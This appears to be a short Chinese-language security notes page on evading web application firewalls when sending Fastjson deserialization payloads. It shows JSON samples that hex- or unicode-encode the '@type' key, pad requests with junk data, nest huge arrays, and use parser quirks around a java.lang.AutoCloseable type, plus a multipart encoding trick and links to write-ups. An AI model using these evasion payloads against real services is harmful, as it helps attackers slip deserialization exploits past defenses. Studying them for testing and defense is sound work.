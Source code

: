 ```yaml
---
sidebar_position: 1
tags: [Fastjson]
#slug: About Me
#title: About Me
---
```


# WAF 绕过

以该结构 User 对象举例说明

```java
&User {
	username: 1
}
```

```json
{
  "@type": "org.example.User",
  "username": "1"
}
```

## 编码绕过

fastjson 对 key,value 值会自动进行 hex 解码和 unicode解码

hex

```json
{
  "\x40\x74\x79\x70\x65": "\x6f\x72\x67\x2e\x65\x78\x61\x6d\x70\x6c\x65\x2e\x55\x73\x65\x72",
  "username": "1"
}
```

unicode

```json
{
  "@type": "\u006f\u0072\u0067\u002e\u0065\u0078\u0061\u006d\u0070\u006c\u0065\u002e\u0055\u0073\u0065\u0072",
  "username": "1"
}

{
  "\u0040\u0074\u0079\u0070\u0065": "\u006f\u0072\u0067\u002e\u0065\u0078\u0061\u006d\u0070\u006c\u0065\u002e\u0055\u0073\u0065\u0072",
  "username": "1"
}
```

## 字符填充

```json
{
  "@type": "org.example.User",
  "username": "1",
  "f": "a*20000"
}
```

二次反序列化

$ref

http://www.bmth666.cn/bmth_blog/2022/04/11/Fastjson%E6%BC%8F%E6%B4%9E%E5%AD%A6%E4%B9%A0/#%E9%A2%98%E7%9B%AE%E5%A4%8D%E7%8E%B0

编码

https://blog.csdn.net/fmyyy1/article/details/121674546

绕过 WAF ，在部分中间件中，multipart 支持指定 Content-Transformer-Encoding 可以使用 Base64 或 quoted-printable （QP 编码）
来绕过 WAF

大量字符绕过 WAF

```
[11111111111111111111111111111111111,[11111111111111111111111111111111111... ,[11111111111111111111111111111111111... ,[11111111111111111111111111111111111... ,[11111111111111111111111111111111111... ,...,{'\x40\u0074\x79\u0070\x65':xjava.lang.AutoCloseable"... ]]]]]

```

各种特性

```
,new:[NaN,x'00',{,/*}*/'\x40\u0074\x79\u0070\x65':xjava.lang.AutoClosea ble"
```

